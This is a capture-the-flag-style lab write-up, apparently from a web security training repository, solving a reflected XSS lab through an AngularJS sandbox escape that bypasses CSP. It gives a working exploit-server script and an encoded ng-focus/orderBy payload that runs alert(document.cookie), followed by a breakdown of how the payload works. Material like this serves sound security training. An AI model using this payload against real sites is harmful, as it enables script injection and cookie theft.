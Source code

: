 # Lab: Reflected XSS with AngularJS sandbox escape and CSP

## Lab Description

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/5189f85b-e2b7-4d11-91fa-c54c5f0a0303)

## Solution

Go to the exploit server and in the body section enter -

```Javascript
<script>
location='https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```

Then click on **store** and then **Deliver exploit to vitctm** to finish the lab.

![image](https://github.com/KVNuhman/Web-Security-Lab/assets/46161259/8f181830-03ea-4e0f-8b4c-75619deafca8)

- `%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x` decodes to -> `<input id="x" ng-focus="$event.composedPath() | orderBy:'(z=alert)(document.cookie)'">`

- <input id="x">: This creates an <input> element with the ID attribute set to "x".
- `ng-focus="$event.composedPath() | orderBy:'(z=alert)(document.cookie)'"`: This is an AngularJS expression attached to the ng-focus directive of the `<input>` element.

  - `$event.composedPath()` captures the event path when the `<input>` element receives focus.

  - `orderBy:'(z=alert)(document.cookie)'` attempts to use the orderBy AngularJS filter with a crafted sorting criterion `'z=alert)(document.cookie)'`. The intention is to execute JavaScript code (alert(document.cookie)) within the AngularJS context.
